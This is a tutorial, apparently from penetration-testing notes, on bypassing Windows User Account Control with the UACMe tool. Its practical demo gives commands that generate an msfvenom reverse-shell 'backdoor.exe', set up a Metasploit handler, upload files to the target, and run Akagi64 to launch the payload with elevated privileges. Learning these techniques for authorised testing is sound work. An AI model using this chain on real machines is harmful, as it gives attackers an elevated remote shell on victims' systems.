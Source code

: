 # Bypassing UAC With UACMe

## UAC (User Account Control)

* User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.&#x20;
* UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.&#x20;
* A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.&#x20;
* Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

## Bypassing UAC

* In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system.&#x20;
* UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.&#x20;
* UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.&#x20;
* There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.

## Bypassing UAC with UACMe

* UACMe is an open source, robust privilege escalation tool developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques.&#x20;
  * <mark style="color:red;">GitHub:</mark> <mark style="background-color:blue;">https://github.com/hfiref0x/UACME</mark>&#x20;
* The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.&#x20;
* It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.&#x20;
* The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

## Practical Demo

In this demo we have local administrator privileges and want to bypass the UAC concent prompt.

We will upload a payload generated with MSFVenom to the target, use UACMe to bypass the UAC prompt and execute the revershell payload, giving us a elevated privilege shell.&#x20;

Exploit the system to gain initial access.

<mark style="background-color:blue;">https://github.com/hfiref0x/UACME</mark>

Generating the payload:

* <mark style="color:yellow;">msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=LOCALPORT -f exe > backdoor.exe</mark>

Set up a multi handler on msfconsole:

* <mark style="color:yellow;">use exploit/multi/handler</mark>
  * Set options the same as the generated msfvenom payload

#### Upload the revershell payload and the UACMe script to the C:\Users\admin\Appdata\Local\Temp directory

* <mark style="color:yellow;">upload /root/backdoor.exe .</mark>
* <mark style="color:yellow;">upload pathtoAkagi64.exe .</mark>

#### Execute the payload by bypassing UAC

* <mark style="color:yellow;">shell</mark>
* <mark style="color:yellow;">.\Akagi64.exe 23 C:\Temp\backdoor.exe</mark>

<mark style="color:purple;">NOTE:</mark> Always indicate the full path to the file to run
